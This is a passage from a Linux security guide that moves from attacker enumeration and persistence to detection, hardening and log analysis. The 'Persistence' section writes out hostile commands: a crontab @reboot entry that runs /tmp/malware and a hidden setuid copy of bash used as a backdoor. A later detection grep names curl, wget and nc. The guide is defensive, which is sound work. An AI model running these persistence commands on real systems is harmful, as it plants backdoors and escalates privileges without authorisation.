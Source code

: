 ### 2. Enumeration
```bash
find / -perm -4000 2>/dev/null
cat /etc/passwd
ls -la /home
crontab -l
```

### 3. Persistence
```bash
echo "@reboot /tmp/malware" | crontab -
cp /bin/bash /tmp/.hidden && chmod +s /tmp/.hidden
```

---

## Detection and Prevention Strategies

### Real-time Monitoring
```bash
# Monitor for suspicious processes
ps auxf | grep -E "(curl|wget|nc|nmap)" | grep -v grep

# Check for unusual network connections
ss -tnp | grep ESTABLISHED

# Review recent command history
lastlog
last -f /var/log/wtmp
```

### Security Hardening
```bash
# Disable unnecessary services
systemctl list-unit-files --state=enabled

# Check for SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Review firewall rules
iptables -L -n -v
ufw status verbose
```

### Log Analysis
```bash
# Review auth logs
grep -i "failed\|failure\|invalid" /var/log/auth.log

# Check for privilege escalation attempts
grep -i "sudo\|su:" /var/log/auth.log

# Analyze SSH attempts
grep "sshd" /var/log/auth.log | grep "Failed"
```

---